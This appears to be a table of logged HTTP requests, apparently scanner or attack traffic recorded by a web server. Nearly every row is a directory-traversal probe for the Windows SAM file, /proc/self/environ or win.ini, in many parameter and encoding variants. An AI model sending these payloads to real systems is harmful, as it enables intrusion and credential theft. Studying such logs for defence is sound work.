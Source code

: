| 1002 |                     1 | GET /?module=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                        |
| 1003 |                     1 | GET /?load=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                          |
| 1004 |                     1 | GET /?layout=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                        |
| 1005 |                     1 | GET /?theme=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                         |
| 1006 |                     1 | GET /?lang=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                          |
| 1007 |                     1 | GET /?section=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                       |
| 1008 |                     1 | GET /?dir=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                           |
| 1009 |                     1 | GET /?navigation=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                    |
| 1010 |                     1 | GET /?source=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                        |
| 1011 |                     1 | GET /?view=../../../../WINDOWS/system32/config/SAM HTTP/1.1                                                          |
| 1021 |                     1 | GET /../../../../../../proc/self/environ HTTP/1.1                                                                    |
| 1094 |                     1 | GET /../../../../../../windows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                                                 |
| 1095 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252fwindows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                         |
| 1096 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                   |
| 1097 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afwindows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1 |
| 1098 |                     1 | GET /..\x5C..\x5C..\x5C..\x5C..\x5C..\x5Cwindows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                               |
| 1099 |                     1 | GET /..%5c..%5c..%5c..%5c..%5c..%5cwindows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                                     |
| 1100 |                     1 | GET /..%255c..%255c..%255c..%255c..%255c..%255cwindows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                         |
| 1111 |                     1 | GET /odinhttpcall1748521181 HTTP/1.1                                                                                 |
| 1113 |                     1 | \x00\x0E8\x1A#9\x98CXw-\x00\x00\x00\x00\x00                                                                          |
| 1114 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252fproc/self/environ HTTP/1.1                                            |
| 1115 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afproc/self/environ HTTP/1.1                                      |
| 1116 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afproc/self/environ HTTP/1.1                    |
| 1117 |                     1 | GET /..\x5C..\x5C..\x5C..\x5C..\x5C..\x5Cproc/self/environ HTTP/1.1                                                  |
| 1118 |                     1 | GET /..%5c..%5c..%5c..%5c..%5c..%5cproc/self/environ HTTP/1.1                                                        |
| 1119 |                     1 | GET /..%255c..%255c..%255c..%255c..%255c..%255cproc/self/environ HTTP/1.1                                            |
| 1120 |                     1 | GET /windows\x5Cwin.ini HTTP/1.1                                                                                     |
| 1121 |                     1 | GET ///////windows\x5Cwin.ini HTTP/1.1                                                                               |
| 1122 |                     1 | GET /////////////windows\x5Cwin.ini HTTP/1.1                                                                         |
| 1123 |                     1 | GET //.//.//.//.//.//./windows\x5Csystem32\x5Cconfig\x5CSAM HTTP/1.1                                                 |
| 1124 |                     1 | GET /../../../../../../windows\x5Cwin.ini HTTP/1.1                                                                   |
| 1125 |                     1 | GET /..%252f..%252f..%252f..%252f..%252f..%252fwindows\x5Cwin.ini HTTP/1.1                                           |
| 1126 |                     1 | GET /..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afwindows\x5Cwin.ini HTTP/1.1                                     |
| 1127 |                     1 | GET /..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%af..%e0%80%afwindows\x5Cwin.ini HTTP/1.1                   |
| 1128 |                     1 | GET /..\x5C..\x5C..\x5C..\x5C..\x5C..\x5Cwindows\x5Cwin.ini HTTP/1.1                                                 |
| 1129 |                     1 | GET /..%5c..%5c..%5c..%5c..%5c..%5cwindows\x5Cwin.ini HTTP/1.1                                                       |
| 1130 |                     1 | GET /..%255c..%255c..%255c..%255c..%255c..%255cwindows\x5Cwin.ini HTTP/1.1                                           |